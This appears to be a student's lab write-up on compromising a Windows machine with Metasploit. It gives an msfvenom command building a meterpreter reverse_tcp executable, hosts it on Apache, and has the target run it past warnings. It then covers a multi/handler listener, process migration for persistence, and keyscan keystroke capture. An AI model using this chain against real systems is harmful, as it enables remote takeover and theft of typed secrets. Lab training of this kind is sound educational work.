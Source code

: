 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
```
NAME: BASKAR U
REG.NO: 212223220013
```

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## OUTPUT:

![Screenshot 2025-04-23 231505](https://github.com/user-attachments/assets/366085f9-9355-4b6e-a9d5-eddce3a17cef)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## Output

![Screenshot 2025-04-23 234602](https://github.com/user-attachments/assets/12172145-5ee1-4baa-bba9-44b99fb41c47)

copy the fun.exe into the apache /var/www/html folder

![Screenshot 2025-04-23 234612](https://github.com/user-attachments/assets/654dbc15-70c8-4009-8e79-07e54ac7967c)

Start apache server sudo systemctl apache2 start

![Screenshot 2025-04-23 234617](https://github.com/user-attachments/assets/17a731b8-06c7-45d9-b24d-9c6ea652f966)

Check the status of apache2

![Screenshot 2025-04-23 234710](https://github.com/user-attachments/assets/d726d5a1-18b3-4af3-872a-9cd842705320)

## Output:

![Screenshot 2025-04-23 231846](https://github.com/user-attachments/assets/b63927bc-8631-4e08-8fc0-67b50ebc2a9f)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2025-04-23 235303](https://github.com/user-attachments/assets/e20ecfd2-220b-4578-8ba6-6083215a1117)

Starting a command and control Server use multi/handler
![Screenshot 2025-04-23 235431](https://github.com/user-attachments/assets/ec0bda09-1683-443f-b735-05c14a922c31)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.220.129/fun.exe The file "fun.exe" downloads.

![Screenshot 2025-04-23 235454](https://github.com/user-attachments/assets/abe01f92-87ad-432d-9ebe-33b53401d9a3)


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![Screenshot 2025-04-24 000012](https://github.com/user-attachments/assets/2d0f4282-85a8-49e0-810a-5d2b096e5d83)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2025-04-24 000031](https://github.com/user-attachments/assets/48fdbae6-feb7-4322-877c-83f4038e5951)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2025-04-24 000052](https://github.com/user-attachments/assets/b8b5e358-55f6-4956-849d-c9ffa3ca016c)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2025-04-24 000105](https://github.com/user-attachments/assets/1b2abe7f-e44c-42b5-9d24-97415685cecb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
